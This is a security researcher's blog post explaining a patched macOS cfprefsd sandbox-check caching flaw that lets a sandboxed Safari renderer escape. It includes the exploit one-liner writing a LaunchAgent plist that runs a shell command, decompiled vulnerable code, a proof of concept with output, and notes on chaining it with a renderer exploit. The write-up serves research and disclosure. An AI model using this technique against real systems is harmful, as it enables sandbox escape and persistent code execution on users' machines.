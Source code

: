 ```yaml
---
layout:	post
title:	"One-liner Safari Sandbox Escape Exploit"
date:	2019-03-26
image: /img/2019-03-26-one-liner-safari-sandbox-escape/cfprefsd-toctou.svg
---
```


I am writing about a dead simple and reliable sandbox escape exploit which only have one line of code. Yeah I am sure it's an exploit, not just PoC. It has nothing to do with iOS.

The bug was refactored (or killed) before the beta release of Mojave. The latest vulnerable version is macOS High Sierra 10.13.6 (17G65).

Since it's part of a browser exploit chain you'll need a renderer exploit to gain shellcode execution first. If not, disable SIP so you can debug, attach lldb to a running `com.apple.WebKit.WebContent.xpc` and use the following command:

```
po CFPreferencesSetAppValue(@"Label", @"You know what should be put here", [(id)NSHomeDirectory() stringByAppendingPathComponent:@"Library/LaunchAgents/evil.plist"])
```

This line will generate a new plist under `~/Library/LaunchAgents`. With the proper arguments you can launch a Calculator or anything you like after re-logging into system.

What's going on here? Isn't that supposed to be blocked by the sandbox?

## The bug

The key is that there's a TOCTOU in `cfprefsd` that you **don't even need to race**.

There are [Preferences Utilities](https://developer.apple.com/documentation/corefoundation/preferences_utilities?language=objc) in CoreFoundation for reading and saving plist serialized preferences on macOS.

* <https://developer.apple.com/documentation/corefoundation/1515497-cfpreferencescopyappvalue?language=objc>
* <https://developer.apple.com/documentation/corefoundation/1515528-cfpreferencessetappvalue?language=objc>

Most developers are in favor of `NSUserDefaults`. They are similar for reading and setting serialized key value data, but `NSUserDefaults` is designed for containerized environment (like apps from App Store), while Preferences Utilities has an explicit argument for accessing data from other applications.

These plist files are usually located in:

* `/Library/Preferences` for root privileged processes
* `~/Library/Preferences` for normal, un-containerized process
* `~/Library/Containers/{bundle_id}/Data/Library/Preferences` for containerized apps from mac App Store

The `applicationID` can also be an absolute path, just like the given one-liner. But it's supposed to perform permission check on the parameter. Why did it even work?

These functions internally invoke XPC with `cfprefsd`, as implemented in `CoreFoundation`. The daemon surely will check the sandbox state and permission of the incoming message with `sandbox_check`.

Unfortunately there used to be an implementation error. It mistakenly caches the result of `sandbox_check` from the beginning, and keep trusting it during the whole session.

The vulnerable function:

```cpp
void ____CFPrefsMessageSenderIsSandboxed_block_invoke(int context, int param_2) {
	int sandboxed;
	undefined4 *puVar1;
	if (*(int *) (param_2 + 0x1c) == 0) {
		sandboxed = _sandbox_check(*(undefined4 *) (context + 0x18),0,
				*(undefined4 *)SANDBOX_CHECK_NO_REPORT);
		*(bool *)(*(int *)(*(int *)(context + 0x14) + 4) + 0x10) = sandboxed != 0;
		puVar1 = (undefined4 *)PTR__kCFBooleanFalse 0048b070;
		if (*(char *)(*(int *) (*(int *) (context + 0x14) + 4) + 0x10) != 0) {
			puVarl= (undefined4 *)PTR__kCFBooleanTrue0048b074;
		}
		*(undefined4 *)(param_2 + 0x1c) = *puVar1;
	} else {
		*(bool *)(*(int *)(*(int *)(context + 0x14) + 4) + 0x10) =
			*(int *)(param_2 + 0x1c) == *(int *)PTR__KCFBooleanTrue_0048b074;
	}
	return;
}
```

The client process first initiates an XPC connection with `cfprefsd`, its sandbox state is checked with `sandbox_check` function. The result is cached for the duration of this XPC session. Thus, new `CFPreference` operations are still allowed by `cfprefsd` after sandbox lockdown because of this cached result.

## PoC

Minimal test case here.

The following `CopyAppValue` request obviously will fail:

```objectivec
init_sandbox(); // copy the implementation from WebKit source
NSLog(@"read: %@", CFPreferencesCopyAppValue(CFSTR("CFBundleGetInfoString"), CFSTR("/Applications/Calculator.app/Contents/Info")));
```

```bash
bogon:Downloads vm$ ./a.out
2019-03-14 07:47:48.068 a.out[1028:33847] read: (null)
```

The console output for the first try:

> rejecting read of { /Applications/Calculator.app/Contents/Info, kCFPreferencesAnyUser, kCFPreferencesCurrentHost, no container, managed: 0 } from process 1028 because accessing preferences outside an application's container requires user-preference-read or file-read-data sandbox accessNow let's put an extra read operation before init_sandbox, the second call will surprisingly work:

If a process has accessed CFPreferences utilities before it goes into sandbox state, there will be no further sandbox check.

```objectivec
CFPreferencesCopyAppValue(CFSTR("TALLogoutSavesState"), CFSTR("com.apple.loginwindow"));
init_sandbox();
NSLog(@"after: %@", CFPreferencesCopyAppValue(CFSTR("CFBundleGetInfoString"), CFSTR("/Applications/Calculator.app/Contents/Info")));
```

```bash
bogon:Downloads vm$ ./a.out
2019-03-14 07:47:08.347 a.out[1026:33710] after: 10.13, Copyright © 2001-2017, Apple Inc.
```

## Study on WebKit

Let's take a look at WebKit's sandbox implementation.

According to the sandbox profile, `process-exec` is prohibited (all rules not explicitly allowed goes to `deny default`)

<https://opensource.apple.com/source/WebKit2/WebKit2-7601.1.46.125/WebProcess/com.apple.WebProcess.sb.in.auto.html>

WebKit has a multi-process architecture, so it needs to spawn the process before containerization. At the very beginning of the renderer process creation, it's just a normal process.

Unfortunately the renderer process has such interaction with `CFPreferences` during process initialization:

```
 frame #17: 0x00007fff454e015a CoreFoundation` _CFPreferencesCopyAppValueWithContainerAndConfiguration + 107
 frame #18: 0x00007fff47868b94 Foundation` -[NSUserDefaults(NSUserDefaults) init] + 1423
 frame #19: 0x00007fff47870c3a Foundation` +[NSUserDefaults(NSUserDefaults) standardUserDefaults] + 78
 frame #20: 0x00007fff42a3ba4e AppKit` +[NSApplication initialize] + 90
 frame #21: 0x00007fff71678248 libobjc.A.dylib` CALLING_SOME_+initialize_METHOD + 19
 frame #22: 0x00007fff7166800c libobjc.A.dylib` _class_initialize + 282
 frame #23: 0x00007fff71667a19 libobjc.A.dylib` lookUpImpOrForward + 238
 frame #24: 0x00007fff71667494 libobjc.A.dylib` _objc_msgSend_uncached + 68
 frame #25: 0x0000000100001627 com.apple.WebKit.WebContent` ___lldb_unnamed_symbol1$$com.apple.WebKit.WebContent + 519
 frame #26: 0x00007fff72743ed9 libdyld.dylib` start + 1
```

After the initialization, it calls ChildProcess::initializeSandbox to enter sandbox and load untrusted content.

<https://opensource.apple.com/source/WebKit2/WebKit2-7601.1.46.9/Shared/ios/ChildProcessIOS.mm.auto.html>

```cpp
void ChildProcess::initializeSandbox(const ChildProcessInitializationParameters& parameters, SandboxInitializationParameters& sandboxParameters)
{
#if ENABLE(MANUAL_SANDBOXING)
    NSBundle *webkit2Bundle = [NSBundle bundleForClass:NSClassFromString(@"WKView")];
    String defaultProfilePath = [webkit2Bundle pathForResource:[[NSBundle mainBundle] bundleIdentifier] ofType:@"sb"];
    if (sandboxParameters.systemDirectorySuffix().isNull()) {
        String defaultSystemDirectorySuffix = String([[NSBundle mainBundle] bundleIdentifier]) + "+" + parameters.clientIdentifier;
        sandboxParameters.setSystemDirectorySuffix(defaultSystemDirectorySuffix);
    }

    String sandboxImportPath = "/usr/local/share/sandbox/imports";
    sandboxParameters.addPathParameter("IMPORT_DIR", fileSystemRepresentation(sandboxImportPath).data());

    switch (sandboxParameters.mode()) {
    case SandboxInitializationParameters::UseDefaultSandboxProfilePath:
    case SandboxInitializationParameters::UseOverrideSandboxProfilePath: {
        String sandboxProfilePath = sandboxParameters.mode() == SandboxInitializationParameters::UseDefaultSandboxProfilePath ? defaultProfilePath : sandboxParameters.overrideSandboxProfilePath();
        if (!sandboxProfilePath.isEmpty()) {
            CString profilePath = fileSystemRepresentation(sandboxProfilePath);
            char* errorBuf;
            if (sandbox_init_with_parameters(profilePath.data(), SANDBOX_NAMED_EXTERNAL, sandboxParameters.namedParameterArray(), &errorBuf)) {
                WTFLogAlways("%s: Couldn't initialize sandbox profile [%s], error '%s'\n", getprogname(), profilePath.data(), errorBuf);
                for (size_t i = 0, count = sandboxParameters.count(); i != count; ++i)
                    WTFLogAlways("%s=%s\n", sandboxParameters.name(i), sandboxParameters.value(i));
                exit(EX_NOPERM);
            }
        }

        break;
    }
```

So `cfprefsd` will always treat it like a normal process.

<p class="full"><img src="/img/2019-03-26-one-liner-safari-sandbox-escape/cfprefsd-toctou.svg" alt="TOCTOU"></p>

No additional action required, just access arbitrary preferences from arbitrary domain under same uid with these utilities. Let's assume you've already archived rop or shellcode to `dlopen` the escape payload, all you need to put in the dylib constructor function is the following one line of code:

```objectivec
CFPreferencesSetAppValue(CFSTR("ProgramArguments"), (__bridge CFArrayRef)@[@"/bin/sh", @"-c", @"open -a Calculator"], (__bridge CFStringRef)[NSHomeDirectory() stringByAppendingPathComponent:@"Library/LaunchAgents/evil.plist"]);
```

LaunchAgent requires logging off, so I digged around and found another way to trigger the code execution outside instantly. Well this instant trigger actually has nearly 80 lines of code (make it clear in case of the Criticism for the title).

Here's the live demo chained with WebSQL renderer exploit from Pwn2Own 2017 (credit to Slipper & Kelwin). Don't have a working renderer exploit on High Sierra now so I use the old one.

## Demo

<iframe src="https://www.youtube.com/embed/rOcDnmZXAHU" frameborder="0" allow="accelerometer; autoplay; encrypted-media; gyroscope; picture-in-picture" allowfullscreen></iframe>

This bug affects at least from El Capitan to High Sierra (10.13.6), or maybe even earlier version. No CVE assigned but I think it's worth branding.
